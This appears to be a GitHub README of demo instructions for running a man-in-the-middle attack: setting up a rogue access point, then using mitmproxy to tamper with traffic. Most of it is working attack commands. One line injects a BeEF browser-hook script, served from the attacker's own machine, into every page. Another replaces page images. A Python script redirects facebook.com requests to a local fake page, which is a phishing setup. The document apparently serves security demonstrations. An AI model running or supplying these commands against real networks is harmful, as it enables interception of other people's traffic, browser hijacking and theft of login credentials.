 

# Man-in-the-Middle Demo's
# NOT FOR MUSTARD
## NOTE:

* Kali and Ubuntu differ in that wlan1 becomes mon0 on Kali and wlan1mon on Ubuntu

### General.

In these `instructions` we will outline a number of demos that can be run by setting up a *man-in-the-middle* network.


### Setting up the network.

We have created two scripts that we need for this demo:
`start_accesspoint.sh` and `stop_accesspoint.sh`. Obviously, when closing the network we need to run the `stop_accesspoint.sh` script to make sure all settings are set back.

To start the network we need to run the `start_accesspoint.sh` script as the super-user. 

~~~bash
$ su
Password: *
~~~

We also need 3 inputs for the script to generate the network: (1) `<GATEWAY>` is the *gateway ip-address* of the network you are currently on. 

~~~bash
$ route -n


# On a MacOSX
$ route -n get default
   route to: default
destination: default
       mask: default
    gateway: 172.16.1.1
  interface: en0
      flags: <UP,GATEWAY,DONE,STATIC,PRCLONING>
 recvpipe  sendpipe  ssthresh  rtt,msec    rttvar  hopcount      mtu     expire
       0         0         0         0         0         0      1500         0
~~~

Input (2) `<INTERNET-DEVICE>` is the *device that the laptop uses to connect to the internet externally*. Make sure this is either `wlan0` or `eth0` (if you are connected via ethernet).

~~~bash
$ ./start_accesspoint.sh <GATEWAY> <INTERNET-DEVICE> "<NETWORK NAME>"
~~~

To stop use `CTRL-C`

~~~bash
$ ./stop_accesspoint.sh
~~~


### Man-in-the-middle Proxy

First we need to enter the virtual environment to be able run the `mitmproxy` scripts.

~~~bash
$ cd Desktop/tmp
$ . env/bin/activate
~~~

To replace every image on a page with another image use the following line

~~~bash
$ mitmproxy -T --host --replace :~hq~s:"<img\s[^>]*?src\s*=\s*['\"]([^'\"]*?)['\"][^>]*?>":"<img src=\"XXXX-URL-TO-IMAGE-XXXX\">"
~~~

it basically matches a regex and replaces the `img` tag with a new one. This clearly does not work for css-driven image placements.

Injecting code into other webpages.

~~~bash
$ mitmproxy -T --host --replace :~hq~s:"<head>":"<head><script src=\"http://192.168.1.XX:3000/hook.js\" type=\"text/javascript\"></script>"
~~~

this will inject the `beef-hook` into pages.

~~~bash
$ mitmproxy -T --host -s scripts-mitm/redirect_request.py
~~~

This file looks a bit as follows

~~~python
from libmproxy.protocol.http import HTTPResponse
from netlib.odict import ODictCaseless

def request( context, flow ):
	# Get the hostname.
	flower = flow.request.pretty_host(hostheader=True)
	print "\tRequested domain: {}".format( flower )
	# Redirect
	if flower.endswith("facebook.com"):
		flow.request.host = "localhost"
		flow.request.port = 9999
		flow.request.path = "facebook.html"
		flow.request.update_host_header()
~~~

## Setting up metasploit with beef

* All works, except the metasploit web UI - I seem to have damaged the database somehow.
* http://samiux.blogspot.hk/2013/05/howto-beef-and-metasploit-integration.html - great link
